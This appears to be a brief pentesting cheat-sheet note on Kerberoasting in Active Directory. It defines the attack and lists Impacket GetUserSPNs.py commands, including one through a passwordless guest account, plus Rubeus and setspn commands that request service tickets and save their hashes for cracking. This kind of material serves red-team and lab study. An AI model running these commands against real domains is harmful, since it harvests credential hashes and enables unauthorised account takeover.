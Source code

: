 **Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py domain.local/USER:PASSWORD@DC_IP {-dc-ip} DC_IP -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```bash
GetUserSPNs.py domain.local/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip DC_IP -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

Create an SPN:

```cmd
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```